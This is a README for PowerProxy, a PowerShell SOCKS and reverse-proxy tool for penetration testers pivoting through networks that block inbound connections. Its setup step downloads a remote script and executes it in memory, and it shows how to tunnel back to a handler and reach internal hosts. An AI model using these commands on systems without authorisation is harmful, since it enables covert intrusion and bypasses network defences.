 # PowerProxy
PowerShell SOCKS proxy with reverse proxy capabilities.

PowerProxy is written with penetration testers in mind. Reverse proxy functionality is a priority, for traversing networks that block inbound connections. Reverse proxy connections are encrypted by default. Username/Password authentication is supported for Socks 5 connections.

## Setup
Import the script:

```powershell
iex (new-object net.webclient).downloadstring("http://192.168.0.22/PowerProxy.ps1") 
# OR
Import-Module \\192.168.0.22\Public\PowerProxy.ps1
```

**reverse_proxy_handler.py** can create temporary SSL certs, which requires OpenSSL. If OpenSSL isn't installed on your machine (it is on most Linux/Unix-based systems), provide your own cert or use the *--no-encrypt* option.

## Usage

For detailed usage, check out PowerProxy's help, or use *./reverse_proxy_handler.py --help*
### **Run a reverse proxy**
On local machine, start the handler:
```bash
# Listen for reverse proxies on port 8080. Clients connect to port 1080
./reverse_proxy_handler.py -p 8080 --client-port 1080
```

In PowerShell:
```powershell
Start-ReverseSocksProxy 172.1.1.20 -Port 8080
```
Proxy clients can treat the server created by reverse_proxy_handler.py as if it were the actual SOCKS server:
```bash
curl --socks4 127.0.0.1:1080 http://10.10.2.69/
```

### **Run a traditional SOCKS server** 
```powershell
Start-SocksProxy 172.10.2.20 -Port 9050
```

### Require authentication
Use PSCredential objects to require a username and password:
```powershell
# Create the credential
$Password = ConvertTo-SecureString -AsPlaintext -Force "Passw0rd123"
$Cred = New-Object System.Management.Automation.PSCredential ("ProxyUser", $Password)

Start-ReverseSocksProxy -Credential $Cred -Address 10.10.10.24 -Verbose
```

## Limitations

- At the moment, only CONNECT requests are supported. BIND support is a goal, if practical.
- GSSAPI authentication is not supported.
- reverse_proxy_handler.py is only tested on UNIX-based machines, and probably doesn't work on Windows.
